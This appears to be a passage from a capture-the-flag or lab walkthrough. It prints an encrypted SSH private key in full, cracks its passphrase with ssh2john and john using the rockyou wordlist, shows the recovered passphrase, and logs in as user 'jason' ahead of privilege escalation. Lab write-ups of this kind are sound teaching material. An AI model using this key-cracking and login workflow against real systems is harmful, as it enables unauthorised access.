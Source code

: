 ```
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,983BDF3BE962B7E88A5193CD1551E9B9

nspZgFs2AHTCqQUdGbA0reuNel2jMB/3yaTZvAnqYt82m6Kb2ViAqlFtrvxJUTkx
vbc2h5vIV7N54sHQvFzmNcPTmOpy7cp4Wnd5ttgGpykiBTni6xeE0g2miyEUu+Qj
JaLEJzzdiehg0R3LDqZqeuVvy9Cc1WItPuKRLHJtoiKHsFvm9arbW4F/Jxa7aVgH
l5rfo6pEI0liruklDfFrDjz96OaRtdkOpM3Q3GxYV2Xm4h/Eg0CamC7xJC8RHr/w
EONcJm5rHB6nDVV5zew+dCpYa83dMViq7LOGEZ9QdsVqHS59RYEffMc45jkKv3Kn
ky+y75CgYCWjtLbhUc4Ml21kYz/pDdObncIRH3m6aF3w/b0F/RlyAYQYUYGfR3/5
Y9a2/hVbBLX7oM+KQqWHD5c05mLNfAYWTUxtbANVy797CSzYssMcCrld7OnDtFx7
qPonOIRjgtfCodJuCou0o3jRpzwCwTyfOvnd29SF70rN8klzjpxvqNEEbSfnh04m
ss1fTMX1eypmCsHecmpjloTxdPdj1aDorwLkJZtn7h+o3mkWG0H8vnCZArtxeiiX
t/89evJXhVKHSgf83xPvCUvnd2KSjTakBNmsSKoBL2b3AN3S/wwapEzdcuKG5y3u
wBvVfNpAD3PmqTpvFLClidnR1mWE4r4G1dHwxjYurEnu9XKO4d+Z1VAPLI2gTmtd
NblKTwZQCWp20rRErOyT9MxjT1gTkVmpiJ0ObzQHOGKJIVaMS8oEng2gYs48nugS
AsafORd3khez4r/5g9opRj8rdCkK83fG5WA15kzcOJ+BqiKyGU26hCbNuOAHaAbq
Zp+Jqf4K6FcKsrL2VVCmPKOvkTEItVIFGDywp3u+v0LGjML0wbrGtGzP7pPqYTZ5
gJ4TBOa5FUfhQPAJXXJU3pz5svAHgTsTMRw7p8CSfedCW/85bMWgzt5XuQdiHZA0
FeZErRU54+ntlJ1YdLEjVWbhVhzHyBXnEXofj7XHaNvG7+r2bH8GYL6PeSK1Iiz7
/SiK/v4kjOP8Ay/35YFyfCYCykhdJO648MXb+bjblrAJldeXO2jAyu4LlFlJlv6/
bKB7viLrzVDSzXIrFHNoVdFmLqT3yEmui4JgFPgtWoHUOQNUw8mDdfCR0x3GAXZP
XIU1Yn67iZ9TMz6z8HDuc04GhiE0hzI6JBKJP8vGg7X8rBuA7DgoFujSOg7e8HYX
7t07CkDJcAfqy/IULQ8pWtEFTSXz1bFpl360v42dELc6BwhYu4Z4qza9FtYS0L/d
ts5aw3VS07Xp5v/pX+RogV8uIa0jOKTkVy5ZnnlJk1qa9zWX3o8cz0P4TualAn+h
dQBVNOgRIZ11a6NU0bhLCJTL2ZheUwe9MTqvgRn1FVsv4yFGo/hIXb6BtXQE74fD
xF6icxCBWQSbU8zgkl2QHheONYdfNN0aesoFGWwvRw0/HMr4/g3g7djFc+6rrbQY
xibeJfxvGyw0mp2eGebQDM5XiLhB0jI4wtVlvkUpd+smws03mbmYfT4ghwCyM1ru
VpKcbfvlpUuMb4AH1KN0ifFJ0q3Te560LYc7QC44Y1g41ZmHigU7YOsweBieWkY2
-----END RSA PRIVATE KEY-----
```

It is encrypted, which means we need to use `ssh2john` to crack it:

```
nano id_rsa
ssh2john id_rsa > id_rsa.hash
john id_rsa.hash --wordlist=/usr/share/wordlists/rockyou.txt
1a2b3c4d         (id_rsa)
```

There we go, we got it, let's proceed to ssh then:

```
chmod 600 id_rsa

ssh jason@IP -i id_rsa
```


![](gitbook/cybersecurity/images/Pasted%252520image%25252020250609162846.png)


We can now begin privilege escalation.
